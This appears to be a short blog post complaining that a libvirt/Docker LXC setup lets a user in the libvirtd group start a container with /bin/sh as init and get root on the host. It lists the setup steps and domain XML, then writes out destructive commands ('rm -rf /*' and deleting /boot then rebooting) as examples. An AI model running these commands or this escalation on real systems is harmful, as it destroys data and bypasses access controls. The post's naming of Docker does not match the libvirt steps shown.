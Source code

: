 ```yaml
---
layout: post
title: Docker Container Madness
---
```


Preamble:
{% highlight bash %}
# apt-get install docker virt-manager
# export LIBVIRT_DEFAULT_URI=lxc:///{% endhighlight %}

Create an unprivileged user:
{% highlight bash %}
  # useradd -G libvirtd user 
{% endhighlight %}
Save the following domXML template
{% highlight xml %}
  <domain type='lxc'>
	  <name>container</name>
	  <memory>102400</memory>
	  <os>
		  <type>exe</type>
		  <init>/bin/sh</init>
	  </os>
	  <devices>
		  <console type='pty'/>
	  </devices>
  </domain>
{% endhighlight %}
Import container into Libvirt:
{% highlight bash %}
  user@host:~$ virsh define container.xml
{% endhighlight %}
Start the container:
{% highlight bash %}
  user@host:~$ virsh start test
  user@host:~$ virsh console test
{% endhighlight %}
And now run bash shell:
{% highlight bash %}
  Connected to domain test
  Escape character is ^]
  
  # bash
  bash: groups: command not found
  /bin/lesspipe: 1: /bin/lesspipe: basename: not found
  /bin/lesspipe: 1: /bin/lesspipe: dirname: not found
  /bin/lesspipe: 295: [: =: unexpected operator
  Command 'dircolors' is available in '/usr/bin/dircolors'
  The command could not be located because '/usr/bin' is not included in the PATH environment variable.
  dircolors: command not found
  root@host:/# 
{% endhighlight %}
Huh? You now have root. What kind of messed up world is this? I can read/write to any file:

```
  root@host:/# rm -rf /*
```

Or alternatively have a bit of fun
```
  root@host:/# rm /boot/*; reboot;
```

Is it possible to be careful with Docker? It doesn't seem safe for mortals.
```
# docker version

Client version: 1.0.1
Client API version: 1.12
Go version (client): go1.2.1
Git commit (client): 990021a
Server version: 1.0.1
Server API version: 1.12
Go version (server): go1.2.1
Git commit (server): 990021a
```

